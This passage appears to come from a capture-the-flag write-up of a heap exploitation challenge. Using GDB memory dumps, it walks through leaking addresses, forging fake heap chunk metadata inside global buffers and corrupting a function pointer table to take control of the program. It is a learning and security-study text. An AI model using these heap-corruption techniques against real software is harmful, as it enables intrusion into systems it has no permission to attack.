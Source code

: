 Using the overwrite ability again we leak the stack, then finally after one more leak we get the binaries location. Game over, right? So I wonder how well this heap is actually set up, what if we just set the second attraction to where we want to overwrite then rename attraction 2, this should free the address  in the binary space and put it into our free list, then just allocate it again with an overwrite.

```
$ 3
Enter the lot number of the amusement to demolish:
$ 2
[*] Got EOF while reading in interactive
```

Well that's a bummer, connecting GDB shows that we are thrown an error through the raise function meaning we were put here by a function call, so what if there are some checks against just blind freeing, and the chunk needs to look like a viable chunk, do we even control the ability for this? Here is what our memory space looks like:

```
gef➤  x/64gx 0x000055c93c25c020
0x55c93c25c020 <password.3818>:	0x706d6f68436c696c	0x0000213032303279
0x55c93c25c030 <password.3818+16>:	0x0000000000000000	0x0000000000000000
...
0x55c93c25c060 <funToString>:	0x000055c93c25a008	0x000055c93c25a012				
...
0x55c93c25c0c0 <submitFuncs>:	0x000055c93c25991c	0x000055c93c25994c				<---
...
0x55c93c25c120 <line.3720>:	0x0000000000000001	0x000055c93c25c060					<---
0x55c93c25c130 <line.3720+16>:	0x6262626262626200	0x6262626262626262
```

At address `0x55c93c25c0c0` is where we want to overwrite, but what is above it? The password string from before, unmodified from when we sent in our previous string. Then down lower at address `0x55c93c25c120` we have remnant data that we sent in with the creation of the second attraction originally. What if we used these two buffers to make it seem like a chunk exists there. So lets make the chunks look valid by putting the meta data between them. To get as close to the funToString variable, since we can only send 50 characters to the password we want to have the top of the chunk be at `0x55c93c25c040` and the bottom at `0x55c93c25c130` or a chunk size of 0xf0, following the table above we get our chunk to be `0xffff0`. So let's spray some of those in there and check the results.

```
gef➤  x/64gx 0x00005616e6e8f020
0x5616e6e8f020 <password.3818>:	0x706d6f68436c696c	0x0000213032303279
0x5616e6e8f030 <password.3818+16>:	0x0000000000000000	0x0000000000000000
0x5616e6e8f040 <password.3818+32>:	0x00000000000fffff	0x00000000000ffffe
0x5616e6e8f050 <password.3818+48>:	0x6161616161616161	0x0000000000006161			<---
0x5616e6e8f060 <funToString>:	0x000000000007fffe	0x000000000007fff2
...
0x5616e6e8f130 <line.3720+16>:	0x00000000000fff00	0x00000000000ffff0
```

At the arrow, we can see that we now have a new chunk with 'a's in there, and we can see that the chunk metadata changed resulting in corruption of the funToString variable as well. Which will be called in various function depending on the attraction type so, it is best to make sure that the first is safe, just to be sure. Any address will work, as long as the program can read that memory address, I used the binary base.

